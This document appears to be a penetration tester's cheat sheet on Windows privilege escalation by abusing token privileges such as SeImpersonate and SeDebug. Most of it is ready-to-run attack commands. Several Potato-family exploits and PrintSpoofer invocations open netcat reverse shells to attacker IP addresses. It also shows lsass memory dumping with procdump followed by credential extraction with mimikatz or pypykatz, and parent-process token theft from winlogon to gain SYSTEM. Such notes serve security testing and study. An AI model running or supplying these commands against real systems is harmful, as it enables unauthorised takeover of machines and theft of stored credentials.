 ```yaml
---
tags:
  - Local
  - Privilege-Escalation
  - SeAssignPrimaryPrivilege
  - SeBackupPrivilege
  - SeCreateTokenPrivilege
  - SeDebugPrivilege
  - SeImpersonatePrivilege
  - SeLoadDriverPrivilege
  - SeRestorePrivilege
  - SeTakeOwnershipPrivilege
  - SeTcbPrivilege
  - AD
---
```

## identify
---
```batch
whoami /priv
```
Or sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
```powershell
accesschk.exe -p
```

## Exploit
---
#### SeImpersonate & SeAssignPrimaryToken
Windows Server 2016 and under: 
**JuicyPotato** [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
```cmd
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.119 5555 -e cmd.exe" -t *
```
Windows Server 2019 and on:
**PrintSpoofer**: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
Spawn shell over new process *need stable shell*
```cmd
PrintSpoofer.exe -i -c cmd.exe
```
Spawn revshell
```cmd
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
**RoguePotato:** [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
```
RoguePotato.exe -r <IP> -e "C:\Windows\Tasks\nc.exe <IP> <port> -e cmd.exe" -l 9999
```
**SweetPotato**: [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)
```cmd
SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <ENCODED REVSHELL>"
```
OR
```cmd
SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```
**GodPotato**: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
```cmd
GodPotato.exe -cmd "cmd /c whoami"
```
```cmd
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

#### SeDebug
___
**Dumping lsass**

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
or with task manager
![](../../assets/Pasted%20image%2020250719100303.png)

read with mimikatz or pypykatz

```plaintext
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

```
pypykatz lsa minidump lsass.dmp
```

**Elevating to SYSTEM**

https://github.com/decoder-it/psgetsystem

Using psgetsystem we can launch a child process that inherits the token of the parent process.


```
PS C:\tools> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

We can target the `winlogon.exe` service because its running as SYSTEM.

We can either 1. launch cmd.exe as SYSTEM if we have GUI access or 2. execute an exe to get a reverse shell, add ourselves to a group, or anything else.


```powershell
import-module .\psgetsys.ps1
ImpersonateFromParentPid -ppid 612 -command C:\Windows\Tasks\elev.exe
```

that process will launch with the integrity of the parent. (Hopefully SYSTEM)
